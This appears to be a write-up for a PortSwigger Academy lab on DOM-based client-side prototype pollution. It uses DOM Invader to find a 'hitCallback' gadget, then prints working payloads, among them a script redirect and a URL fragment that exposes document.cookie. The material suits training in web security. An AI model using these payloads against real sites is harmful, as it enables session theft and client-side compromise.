 # Lab 3

### Objective: Get document.cookie

#### Automatic method

In this lab, we are recommended to use DOM Invader as it saves us time and effort. First just use it like the same open the browser and the extension

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

And we get the alert here after exploiting the exploiting the gadget which is `hitCallback`

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Here is the generated payload that calls an alert

```
/#__proto__[hitCallback]=alert%281%29
```

Now, the objective is to steal the cookie, Portswigger already mad a server for which we can deliver the payload

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We craft the exploit with `<script>` tags in the body with the `location` reference being our payload

```
<script>
    location="https://0adc007d04ba9aaa8508314200390060.web-security-academy.net/#__proto__[hitCallback]=alert%281%29"
</script>
```

But the payload is URL-encoded, we can check using Cyberchef

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

#### Exploit

Only change the alert to a `document.cookie` and the exploit is set.

```
https://0adc007d04ba9aaa8508314200390060.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29
```

